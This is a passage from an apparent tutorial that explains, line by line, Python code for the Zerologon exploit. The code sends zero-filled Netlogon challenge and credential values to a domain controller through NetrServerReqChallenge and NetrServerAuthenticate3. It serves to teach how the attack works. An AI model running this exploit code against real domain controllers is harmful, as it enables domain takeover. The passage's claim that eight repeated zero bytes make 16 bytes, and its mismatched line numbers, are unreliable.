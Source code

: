 Line 1 is defining the try\_zero\_authenticate function and is taking the previously mentioned 3 variables as input, and is passing them into the function. Lines 3-6 are establishing a bind and a session with NRPC over TCP/IP so that we can communicate with the domain controller.

**Lines 27-40**
```
1.   plaintext = b'\\x00' \* 8  
2.    ciphertext = b'\\x00' \* 8
3.    
4.    flags = 0x212fffff
5.    
6.    nrpc.hNetrServerReqChallenge(rpc\_con, dc\_handle + '\\x00', target\_computer + '\\x00', plaintext)
7.    try:
8.      server\_auth = nrpc.hNetrServerAuthenticate3(rpc\_con, dc\_handle + '\\x00', target\_computer + '$\\x00', nrpc.NETLOGON\_SECURE\_CHANNEL\_TYPE.ServerSecureChannel,target\_computer + '\\x00', ciphertext, flags)
```
  
Line 1 and 2 are establishing two new variables, plaintext and ciphertext containing 16 Bytes of "\\x00" which will be used to exploit the Zero Logon vulnerability. Line 4 contains a variable called Flags. These are the default flags observed from a Windows 10 Client (using AES-CFB8) with the Sign and Seal bit disabled (Source/Credit: Secura).


Line 6 is where the fun beings -- This is where Step 1 beings in Figure 1, the client creates a NetrServerReqChallenge containing the following information required by the [Microsoft Documentation](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/5ad9db9f-7441-4ce5-8c7b-7b771e243d32):
```
1.   NTSTATUS NetrServerReqChallenge(
2.     \[in, unique, string\] LOGONSRV\_HANDLE PrimaryName,
3.     \[in, string\] wchar\_t\* ComputerName,
4.     \[in\] PNETLOGON\_CREDENTIAL ClientChallenge,
5.   );
```
  
The Primary Name being the DC Handle, the Computer Name being the Target Computer, and the Client Challenge being 16 bytes of "\\x00".

Lines 8 sets up a try except (we'll see the rest of that in the next few lines), but in line 9 is where we actually attempt to exploit the Zero Logon vulnerability, this would be Figure 1, Step 3. This section requires a fair bit more information, per the Microsoft Documentation for [NetrServerAuthenticate3](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/3a9ed16f-8014-45ae-80af-c0ecb06e2db9), the following is required: 
```
1.  NTSTATUS NetrServerAuthenticate3(      
2.     \[in, unique, string\] LOGONSRV\_HANDLE PrimaryName,
3.     \[in, string\] wchar\_t\* AccountName,
4.     \[in\] NETLOGON\_SECURE\_CHANNEL\_TYPE SecureChannelType,
5.     \[in, string\] wchar\_t\* ComputerName,
6.     \[in\] PNETLOGON\_CREDENTIAL ClientCredential,
7.     \[in, out\] ULONG \* NegotiateFlags,
8.   );
```
  